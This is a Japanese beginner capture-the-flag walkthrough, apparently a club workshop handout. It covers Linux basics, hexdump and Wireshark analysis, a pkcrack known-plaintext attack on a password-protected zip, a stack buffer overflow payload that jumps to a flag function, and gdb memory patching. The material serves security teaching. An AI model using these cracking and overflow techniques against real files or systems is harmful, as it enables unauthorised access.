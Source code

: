 このコンピュータでは、マウスを使った操作ではなく、キーボードでコマンドを入力することによって操作をしてもらいます。
ターミナルというコマンドを入力する画面を開き、下記のコマンドを入力してみて下さい。
ls :カレントディレクトリ（現在いるフォルダの階層）の中のファイルやフォルダを表示するコマンド。
cd Downloads :カレントディレクトリをDownloadsというディレクトリに移動するコマンド。
vim test :vimはテキストエディタ（メモ帳みたいなもの）の一種で、テキストファイルを見たいときに使う。
今後は、このような操作を組み合わせて問題を解いていきます。
mkdir (ハンドルネーム)で自分のディレクトリを作ってもらって、
cd (上記で作ったディレクトリ)で移動して、そこで作業してください。

easy_1
スコアサーバから問題をダウンロードします。 
ls
コマンドを実行すると、easy_1というファイルが存在することが確認できます。
しかし、ファイルの種類が分からないとどうしようもないので、ファイルの種類を表示するコマンドを実行します。
file easy_1
このコマンドを実行すると、easy_1: ELF 64-bit LSB  executable....という結果が表示されます。
重要なのが、ELFという単語で、これは実行可能ファイル（windowsで言うexeファイルのようなもの）を表しています。
つまりeasy_1は実行可能ファイルなので、とりあえず実行してみましょう。
linuxでの実行はこのようにやります。
./easy_1
このままだと、実行権限がなくPermission deniedと言われるので、
chmod 777 easy_1
として実行権限を与えます。
その後また
./easy_1
をしてみて下さい。
しかし、実行結果はSleepy...と表示されるだけでフラグを出してくれません。
そこで、この実行可能ファイルの解析を試みます。
ご存知の通り、コンピュータは０と１しか理解しません。つまりeasy_1という実行可能ファイルも
コンピュータにとっては０１の命令でしかありません。まずはそれを確かめてみましょう。
hexdump -C easy_1 | less
このコマンドを実行すると、数字とアルファベットがゴチャゴチャになったものが表示されると思いますが、
これが機械語（コンピュータが理解する命令）です。０と１だけじゃないじゃないかと思うかもしれませんが、これは０と１の羅列を人間に見やすく１６進数で表したものだからです。
キーボードのｊを押すと下にスクロールできるので、しばらく見てみてください。
しばらくすると、フラグが現れると思います。

easy_2
次は、ネットワークの問題です。
日々Chrome,Firefox,Internet Explorerなどのブラウザを使ってネットサーフィンしている人は多いと思います。この問題はその通信に関する問題です。
ブラウザでウェブページを開こうとすると、googleのサイトならgoogleのサーバーに「こういうウェブページが見たいから頂戴」という
リクエストが飛び、サーバーはそれに答えてウェブページをあなたのパソコンに送信します。
このことをもっと詳しく見てみます。
easy_2をダウンロードして、
ls
を実行すると、easy_2.pcapというファイルがあることがわかると思います。
easy_1で学んだ通り、分からないファイルに対してはfileコマンドを実行してみましょう。
file easy_2.pcap
しかし、いきなりpcap-ng capture file と言われても何のことか分からないと思います。
このファイルは、通信を記録したパケットキャプチャファイルと呼ばれています。
wiresharkというパケット解析ツールを利用して、中身を見てみましょう。
wireshark easy_2.pcap
これで見ると、TCPというプロトコルで通信していることがわかると思います。
一番上の三行はTCPのプロトコルで接続を確立しているところで、3wayハンドシェイクと呼ばれています。
このサイトが詳しいので参考にしてください。
http://www.infraexpert.com/study/tcpip9.html
サーバから送られてくるデータ(TCPのFlagが[PSH,ACK]のパケット)を見ると末尾のデータに怪しいascii文字が含まれていることがわかります。
これを辿って行くと、サーバからクライアントにフラグが送られていることがわかります。

easy_3
パスワードのかかったzipファイルが与えられます。
見てみると、flag.txtとbuho310.pdfというファイルがあることがわかります。
flag.txtはフラグが書いてあるファイルだとして、buho310.pdfはなんだろうなぁと考えます。
ここで、buho310と検索してみると、下の方にTSGで出している部誌があると思います。
平文が分かっているファイルがzipファイルの中にあるときは、既知平文攻撃が成り立つ可能性があります。
既知平文攻撃と検索すると、pkcrackというツールが見つかります。ホームディレクトリにpkcrackが既にダウンロードしてあります。
buho310.pdfをダウンロードして、解析を始めてみましょう。
~/pkcrack-1.2.2/src/pkcrack -C easy_3.zip -c buho310.pdf -p buho310.pdf -P buho.zip -d decrypt.zip
buho.zipは、buho310.pdfをzip化したものです。
10分程度解析に時間がかかってしまうかもしれませんが、解析が終わるとdecrypt.zipというパスワードがかかっていないzipファイルができます。
unzip decrypt.zip
で解凍します。

easy_4
file easy_4
を実行すると、実行可能ファイルだということがわかるので、とりあえず実行してみます。
./a.out
Hi, what's your name?
と言われるので、適当に入力すると終了します。
試しにとても長い文字列を入力すると、
*** stack smashing detected ***: ./a.out terminated
と言われます。バッファオーバーフローが起きたことがわかります。
objdump -d easy_4 | less
でアセンブリが得られます。jを押してアセンブリを見てみると、,,
という関数が見えます。
flagという関数が怪しく、putsもあるしフラグが出力されそうだなぁとわかります。
gdbで実行して、なんとかしてflag関数に飛ばそうと考えます。
gdb ./a.out
b main
n,sで実行します。nは関数を飛ばし、sは関数の中に入ります。
buflowのretで、スタックの一番上のアドレスをメモします。
また、disass flagでflagのアドレスをメモします。
0x08048494
scanfで得た入力が確保されるスタック上の領域より下にリターンアドレスの戻り値の領域が存在するので、flagのアドレスを何回も入力したらいいかなぁと思います。
echo -e "\x94\x84\x04\x08\x94\x84\x04\x08\x94\x84\x04\x08\x94\x84\x04\x08\x94\x84\x04\x08\x94\x84\x04\x08\x94\x84\x04\x08\x94\x84\x04\x08\x94\x84\x04\x08\x94\x84\x04\x08\x94\x84\x04\x08\x94\x84\x04\x08\x94\x84\x04\x08\x94\x84\x04\x08" | ./easy_4

easy_5
gdb easy_5
をすると、flagという関数を呼んでいることがわかるので、中に入ってみます。
すると、
mov    DWORD PTR [ebp-0xc],0x0
の後に
cmp    DWORD PTR [ebp-0xc],0x0
した後に、
je     0x804843c 
して、ゼロフラグが1だったらジャンプしているということがわかります。
また、通常ではジャンプするので、ジャンプをしないようにputsを呼ぶようにします。
p $ebp-0xc
してみると比べているアドレスがわかるので、そのアドレスを0以外の値に書き換えます。
たとえば、
set *0xffffd04c=1
そしてcmp後実行を続けると、フラグが出てきます。
